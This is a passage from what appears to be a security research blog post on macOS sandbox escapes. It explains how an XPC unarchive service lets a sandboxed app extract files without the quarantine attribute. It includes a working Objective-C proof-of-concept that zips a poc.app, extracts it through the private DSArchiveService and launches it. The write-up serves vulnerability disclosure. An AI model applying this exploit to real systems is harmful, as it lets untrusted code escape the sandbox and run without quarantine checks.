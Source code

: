 ![image-20241020145834370](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020145834370.png)

This XPC method helps to unarchive an item passed from a sandboxed application to a specified location. However, it doesn’t pass the quarantine extended attribute to the extracted content. Therefore, a sandboxed application can drop arbitrary files without being marked as quarantined by abusing this XPC method.

### The exploit and demo

The XPC client has already been implemented in the Objective-c class `DSArchiveService` within the `DesktopServicesPriv.framework`. The exploit code is as follows:

```
@interface DSArchiveService : NSObject
- (void)unarchiveItemAtURL:(id) itemURL passphrase:(id) password destinationFolderURL:(id) dstURL completionHandler:(void (^)(NSURL *, NSError *))arg2;
@end

void prepare(void) {
    NSLog(@"preparing %@/payload.zip", NSHomeDirectory());
    system("mkdir -p poc.app/Contents/MacOS; mkdir dst");
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
    system("chmod +x poc.app/Contents/MacOS/poc; zip -r payload.zip poc.app");
}

void exploit_ArchiveService(void) {
    [[NSBundle bundleWithURL:[NSURL fileURLWithPath:@"/System/Library/PrivateFrameworks/DesktopServicesPriv.framework"]] load];
    DSArchiveService *service = [[objc_getClass("DSArchiveService") alloc]init];
    
    NSString *payloadPath = [NSHomeDirectory() stringByAppendingPathComponent:@"payload.zip"];
    NSString *dstPath = [NSHomeDirectory() stringByAppendingPathComponent:@"dst"];
    [service unarchiveItemAtURL:[NSURL fileURLWithPath:payloadPath] passphrase:nil destinationFolderURL:[NSURL fileURLWithPath:dstPath] completionHandler:^(NSURL *dstFolder, NSError *error) {
        NSLog(@"dstFolderURL:%@, error:%@", dstFolder, error);
        NSString *cmd = [NSString stringWithFormat:@"open %@/poc.app", [dstFolder path]];
        system([cmd UTF8String]);
    }];
}
```

Demo link: https://youtu.be/RMyKyHYibSk

### The patch
